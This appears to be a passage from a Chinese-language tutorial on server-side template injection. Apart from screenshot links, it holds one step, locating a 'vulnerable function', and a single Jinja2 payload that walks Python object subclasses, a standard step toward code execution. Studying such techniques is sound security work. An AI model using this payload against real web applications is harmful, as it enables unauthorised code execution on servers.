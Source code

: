 再查找漏洞函数

![image-20240407093833921](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407093833921.png)

```
name={{"".__class__.__base__.__subclasses__()[117]}}
进行调用
```

![image-20240407093853982](SSTI%E6%BC%8F%E6%B4%9E.assets/image-20240407093853982.png)
